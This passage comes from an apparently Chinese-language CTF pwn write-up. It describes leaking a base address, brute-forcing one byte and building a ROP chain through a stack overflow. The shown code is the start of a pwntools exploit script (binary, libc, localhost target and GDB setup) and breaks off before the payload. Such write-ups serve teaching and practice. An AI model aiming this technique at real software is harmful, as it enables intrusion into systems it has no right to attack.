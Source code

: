 执行到这就会打印基地址

![image](https://webimage.lufiende.work/1752765036167.png)

需要爆破一位，但不是什么大事情，拿到地址去栈溢出那里写 rop 链就行

#### 1-2 Exp

正攻方法

````python
#!/usr/bin/env python3

'''
    author: lufiende
    time: 2025-07-05 10:39:11
'''
from pwn import *
import os
import sys
import time
from ctypes import *

# For local
filename = "vul2_patched"
libcname = "/home/lufiende/.config/cpwn/pkgs/2.39-0ubuntu8.4/amd64/libc6_2.39-0ubuntu8.4_amd64/usr/lib/x86_64-linux-gnu/libc.so.6"

# For remote
host = "127.0.0.1"
port = 1337

# For docker
container_id = ""
proc_name = ""

# For GDB
isAttach = 0
gdbscript = '''
b main
b *$rebase(0x17ff)

set debug-file-directory /home/lufiende/.config/cpwn/pkgs/2.39-0ubuntu8.4/amd64/libc6-dbg_2.39-0ubuntu8.4_amd64/usr/lib/debug
set directories /home/lufiende/.config/cpwn/pkgs/2.39-0ubuntu8.4/amd64/glibc-source_2.39-0ubuntu8.4_all/usr/src/glibc/glibc-2.39
'''

# For Elf info
filearch = 'amd64'
context.log_level = 'debug'
context.os = 'linux'
context.arch = filearch
context.terminal = ["/mnt/c/Windows/System32/cmd.exe", '/c', 'start', 'wsl.exe', '-d', 'Kali-linux', '-u', 'lufiende']

# Load the binary
elf = context.binary = ELF(filename)
if libcname:
    libc = ELF(libcname)

# Set up start function
def start():
    if args.ATTACH:
        global isAttach
````